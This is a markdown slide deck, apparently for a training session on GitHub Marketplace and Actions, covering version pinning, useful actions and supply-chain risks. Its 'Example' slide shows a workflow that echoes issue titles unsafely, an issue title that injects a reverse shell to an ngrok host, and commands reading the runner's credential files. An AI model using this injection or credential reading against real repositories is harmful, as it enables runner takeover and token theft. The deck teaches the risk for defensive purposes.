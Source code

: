 <!-- .slide: class="with-code" -->
# What is the marketplace

* List of free and paid tools
* GitHub Actions and Apps
* Anyone can share their apps
* Anyone can publish an action in GitHub Marketplace

Notes:
eg. paid : https://github.com/marketplace/wip
* only apps owned by organizations can sell their app

Gaetan

##==##
<!-- .slide: -->

# How to use

* https://github.com/marketplace?type=actions

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: 
Node ou Docker
Demo direct sur la marketplace

Gaetan

##==##
<!-- .slide: class="with-code" -->

# Use an GitHub Action from the marketplace

## Using versioned actions

```yaml
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference the major version of a release
  - uses: actions/checkout@v3
    
  # Reference a specific version
  - uses: actions/checkout@v3.2.0
    
  # Reference a branch
  - uses: actions/checkout@main
```

<br> 
<br> 

## Using actions with parameters
```yaml
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

Notes:

Gaetan

##==##
<!-- .slide: -->
# Usefuls actions

* [`actions/checkout`](https://github.com/marketplace/actions/checkout)

  * allow to checkout a repository 
  * github_token, ref, depth, path, ... customization

* [`actions/setup`](https://github.com/marketplace?type=actions&query=setup+)

  * allow to install a tool
  * provided by github and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* [`actions/dependency-review-action`](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raise an error if vulnerabilities found.

Notes:

Gaetan

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

Thibauld

##==##
<!-- .slide: class="with-code" -->

# Example

* step of our Github Actions

```yaml
      - run: |
         echo "ISSUE TITLE: ${{github.event.issue.title}}"
         echo "ISSUE DESCRIPTION: ${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action
```yaml
New malicious issue title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "
```

Notes:

ngrok to make a backdoor

Thibauld

##==##
<!-- .slide: class="with-code" -->

* Credential 

```yaml
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

Notes:

Thibauld
